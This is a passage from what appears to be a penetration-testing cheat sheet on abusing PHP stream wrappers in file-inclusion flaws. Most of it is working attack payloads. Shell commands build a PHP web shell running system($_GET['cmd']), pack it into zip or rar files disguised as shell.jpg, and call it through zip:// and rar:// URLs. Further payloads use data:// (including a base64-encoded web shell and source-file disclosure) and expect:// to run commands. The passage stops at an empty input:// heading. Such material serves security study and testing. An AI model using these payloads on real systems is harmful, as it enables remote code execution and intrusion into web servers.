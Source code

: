 You can also use **php://stdin, php://stdout and php://stderr** to access the **file descriptors 0, 1 and 2** respectively (not sure how this could be useful in an attack)

### zip:// and rar:// <a href="#zip-and-rar" id="zip-and-rar"></a>

Upload a Zip or Rar file with a PHPShell inside and access it. In order to be able to abuse the rar protocol it **need to be specifically activated**.



```
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php

# To compress with rar
rar a payload.rar payload.php;
mv payload.rar shell.jpg;
rm payload.php
http://example.com/index.php?page=rar://shell.jpg%23payload.php
```

### data:// <a href="#data" id="data"></a>

```
http://example.net/?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data://text/plain,<?php phpinfo(); ?>
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
http://example.net/?page=data:text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data:text/plain,<?php phpinfo(); ?>
http://example.net/?page=data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

Note that this protocol is restricted by php configurations **`allow_url_open`** and **`allow_url_include`**

### expect:// <a href="#expect" id="expect"></a>

Expect has to be activated. You can execute code using this:

```
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```

### input:// <a href="#input" id="input"></a>
